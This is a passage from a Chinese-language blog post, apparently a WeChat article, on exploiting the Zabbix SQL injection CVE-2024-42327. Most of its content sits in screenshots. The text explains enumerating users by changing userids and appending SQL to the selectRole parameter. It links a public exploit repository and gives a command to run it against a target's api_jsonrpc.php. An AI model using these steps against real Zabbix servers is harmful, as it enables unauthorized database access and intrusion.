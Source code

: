 结果如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OiaZBsiciaGvkTIbL4M1CXUwtHfrUmKWb9y42GoLv4ZSjYmzdt9HFyY1tmBWvumwcFX3w8lw3Nic9Ah4jibTmKhz3wg/640?wx_fmt=png&from=appmsg "")  
  
可以通过更改  
userids的值，来遍历其他用户  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OiaZBsiciaGvkTIbL4M1CXUwtHfrUmKWb9y5Td2KmZoWgkDgddOw2h1uqjLGwyhkHbt58Z7WZic42JySPzcG1N50HA/640?wx_fmt=png&from=appmsg "")  
  
selectRole参数可控，直接在后面加上sql语句，即可执行  
‍  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OiaZBsiciaGvkTJc4zAB44ucTVRDlbfzVT0oia2or8coawL0gcgx7B9xxS3utb6icPl1zDGqnzAyy30TIPh0qS9jm6g/640?wx_fmt=png&from=appmsg "")  
  
利用工具  
‍  
‍  
‍  
‍  
  
**项目地址：**  
‍  
‍  
‍  
‍  
‍  
```
https://github.com/aramosf/cve-2024-42327
```  
  
使用方法：  
```
python cve-2024-42327.py -u http://you_ip/api_jsonrpc.php -n Admin -p zabbix
```  
  
-n参数是用户名，-p是密码，然后替换目标即可。  
‍  
‍  
  
结果如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OiaZBsiciaGvkTJc4zAB44ucTVRDlbfzVT0eibyGKz4JbvgoqwDKib3X3jB0RMLeYkf6TZqKWiaceWIZKeV01lwgkJuw/640?wx_fmt=png&from=appmsg "")  
  
文末  
‍  
‍  
‍  
  
添加机器人wx，回复**进群**，即可获取进群链接。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OiaZBsiciaGvkTJc4zAB44ucTVRDlbfzVT0FEiajNS0GZVyDokCCbmbFxvd9SbYZKzGk01QibGvcKzaoFcydtRhUSAw/640?wx_fmt=png&from=appmsg "")  
  
‍  
  
